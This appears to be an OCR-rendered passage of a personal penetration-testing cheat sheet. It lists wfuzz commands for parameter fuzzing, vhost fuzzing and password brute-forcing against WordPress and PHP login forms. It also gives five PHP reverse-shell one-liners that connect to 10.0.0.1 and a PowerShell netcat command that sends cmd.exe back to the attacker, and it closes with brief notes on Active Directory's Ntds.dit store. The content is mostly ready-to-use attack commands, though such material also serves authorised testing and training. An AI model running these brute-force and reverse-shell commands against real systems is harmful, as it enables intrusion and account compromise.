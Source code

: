 `wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt --hc 404,301 "http://target:80/index.php?FUZZ=data"`

`wfuzz -c -z file,/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt --hc 404 -d "log=admin&pwd=FUZZ" http://target:80/wp-login.php`

`wfuzz -c -z file,/home/all3n/tools/SecLists/Passwords/rockyou.txt --hw 325 -d "username=bob&password=FUZZ" -b 'PHPSESSID=2455efd8379026e261ef78186cebfc42' http://192.168.191.121/dev/index.php`

- Try fuzzing for files that ends with xml aswell and anyother types txt,csv,bak etc.

Vhost fuzzing

`wfuzz -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -H "Host: preprod-FUZZ.host.com" --hc 200 --hw 356 -t 100 10.10.10.101`

### Hakrawler

Uses The wayback Machine to gather directories.

### Shells

```php
php -r '$sock=fsockopen("10.0.0.1",80);exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",80);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",80);system("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",80);passthru("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",80);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
```
### Windows Stuff

What to do - I have a foothold how do I get a reverse shell?

- `powershell -c cd C:\Users\myuser\Downloads; .\nc64.exe -e cmd.exe myip myport` [nc](https://github.com/int0x33/nc.exe/tree/master)

### Active Directory

- AD DS Data Store contains the DB files and processes that store and manage directory information for users, services, and applications.
  - Consists of the `Ntds.dit` file
  - Stored by default in the %SystemRoot%\NTDS folder on all domain controllers
  - Only accessible through the DC processes and protocols